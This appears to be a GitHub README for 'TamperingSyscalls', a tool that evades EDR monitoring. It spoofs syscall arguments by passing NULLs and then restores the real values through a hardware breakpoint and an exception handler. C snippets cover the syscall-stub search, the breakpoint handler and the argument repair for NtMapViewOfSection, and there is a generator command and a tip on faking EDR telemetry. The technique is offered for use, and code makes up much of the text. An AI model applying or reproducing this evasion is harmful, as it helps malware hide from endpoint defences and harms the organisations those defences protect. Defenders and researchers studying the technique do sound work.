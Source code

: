 # TamperingSyscalls
TamperingSyscalls is a 2 part novel project consisting of argument spoofing and syscall retrival which both abuse EH in order to subvert EDRs. This project consists of both of these projects in order to provide an alternative solution to direct syscalls.

**Tampering with syscalls.** 
1. Set up a global EH which will be used later.
```c
SetUnhandledExceptionFilter( OneShotHardwareBreakpointHandler );
```
2. Set a hardware breakpoint on the address of a syscall instruction which has the bytes `0f05` on the Dr0 register.
We can locate the address of the syscall stub with this quick memory byte search.
```c
BYTE stub[] = { 0x0F, 0x05 };
for( unsigned int i = 0; i < (unsigned int)25; i++ )
{
	if( memcmp( (LPVOID)((DWORD_PTR)function + i), stub, 2 ) == 0 ) {
		return (LPVOID)((DWORD_PTR)function + i);
	}
}
  ```
3. We can then make a call to this function passing NULL for the <=4 arguments (which tend to be the more important arguments holding information such as process handles .etc) We also set the EnumState to the corresponding Enum for this function (so we can later fix the arguments).
4. While the EDR has full introspection into our arguments, it cannot confidently make the decision we are performing a malicious action as we have passed NULL as the first <=4 arguments.
5. The EDR will then return the syscall number(SSN) and store it in RAX. If you are only interested in retreiving syscalls, [check out the stripped branch of this repository.](https://github.com/rad9800/TamperingSyscalls/blob/stripped/TamperingSyscalls/entry.cpp)
6. The program then flows into the syscall instruction { 0x0F, 0x05 } which hits the breakpoint we previously set. This will then throw a SINGLE_STEP exception which will be handled by the exception handler we setup in Step 1.
```c
if( ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP )
```
7. This exception handler will disable the hardware breakpoint for Dr0 only if the Dr0 and RIP match by setting the value the Dr0 register points to 0 (which should be the current RIP)
```c
if( ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP )
{
	if( ExceptionInfo->ContextRecord->Dr7 & 1 ) {
		if( ExceptionInfo->ContextRecord->Rip == ExceptionInfo->ContextRecord->Dr0 ) {
			ExceptionInfo->ContextRecord->Dr0 = 0;
```
7. We will then fix the remaining registers we had previously set to NULL. The reason it is 4 is that this the x64 calling convention dictates we use RCX, RDX, R8, R9 for the first 4 arguments, and the rest are setup on the stack. It is possible to manually set these up the >4 parameters on the stack but this is beyond the scope of this project as it would require inline assembly. The reason why it is R10 not RCX is that at the start of every syscall stub `mov r10, rcx` as the RCX register is destroyed in the next instructions.
```c
case NTMAPVIEWOFSECTION_ENUM:
	ExceptionInfo->ContextRecord->R10 =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->SectionHandle;

	ExceptionInfo->ContextRecord->Rdx =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->ProcessHandle;

	ExceptionInfo->ContextRecord->R8 =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->BaseAddress;

	ExceptionInfo->ContextRecord->R9 =
		(DWORD_PTR)((NtMapViewOfSectionArgs*)(StateArray[EnumState].arguments))->ZeroBits;
```
We can see in this example we are fixing the arguments for NtMapViewOfSection.

## Howto
If you'd like to start to fake EDR telemetry it is possible to modify the p[FunctionName] definitions where they are currently set to NULL. 

## Generation

To generate the required functions, use `gen.py`. This supports either:

- Comma separated functions
```
python gen.py NtOpenSection,NtMapViewOfSection,NtUnmapViewOfSection
```

It will produce 3 files: TamperingSyscalls.cpp, TamperingSyscalls.h, and main.cpp. You can `#include "TamperingSyscalls.h"` into your project. We can call the functions by appending the function name to p, for example `pNtOpenSection(...);`


### Limitations
We cannot set a breakpoint on NtSetThreadContext or it's variants as this is used to set the debug registers.
There is a brief period where the debug registers are set, but this is very small and I do not think we will be detected for holding an open Dr0.

I have published a small blog post, touching upon these techniques.
[TamperingSyscall's Blog Post](https://fool.ish.wtf/2022/08/tamperingsyscalls.html)
